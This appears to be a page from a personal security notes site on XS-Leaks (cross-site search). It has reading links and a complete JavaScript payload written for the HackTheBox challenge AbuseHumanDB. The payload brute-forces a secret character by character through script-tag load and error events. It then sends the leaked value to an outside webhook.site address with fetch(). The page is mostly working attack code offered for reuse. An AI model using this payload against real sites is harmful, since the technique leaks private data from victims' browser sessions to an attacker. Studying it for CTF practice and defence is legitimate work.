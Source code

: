 ```yaml
---
layout: default
title: XS-Leaks
nav_order: 1
parent: Payloads
---
```


# XS-Leaks
{: .no_toc }

---

Need to read:
- <https://xsleaks.dev/>
- <https://book.hacktricks.xyz/pentesting-web/xs-search>
- <https://sec.vnpt.vn/2022/02/xs-search/>
- <https://skelter.hashnode.dev/htb-abusehumandb-writeup>
- <https://medium.com/@skelter/htb-abusehumandb-661ea8acb5b6>
- <https://luchoane.medium.com/abusehumandb-hackthebox-write-up-bc0df5eef2ec>

Example: HTB - AbuseHumanDB

Payload

```html
<script>
var ip = '127.0.0.1:1337';
var hook = 'webhook.site/<your-id>';
var flag = 'HTB{';
var printable = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!@$%\"\'_';
var special = '_%\"\'';
var url = `http://${ip}/api/entries/search?q=`

async function getPartialFlag(char){
    return new Promise((resolve, reject) => {
        const script = document.createElement('script');
        script.src = url + encodeURIComponent(flag + char);
        script.onload = () => char==='}' ? reject(char):resolve(char);
        script.onerror = () => reject(char);
        document.head.appendChild(script);
    });
}

async function getFlag(chars) {
    for (let index = 0; index < 10; index++) {
        var brk = false; var char;
        for (var i = 0; i < chars.length; i++) {
            char = special.includes(chars[i]) ? '\\'+chars[i]:chars[i];
            await getPartialFlag(char).then((res) => { flag = flag.concat(res); brk = res=='}' ? true:false; i=0 } , (res) => {} );
            if(brk) break;
        }
        fetch(`http://${hook}/flag=${flag}`, {method: 'get'});
        flag=flag.concat('_');
    }
};

getFlag(printable);

</script>
```

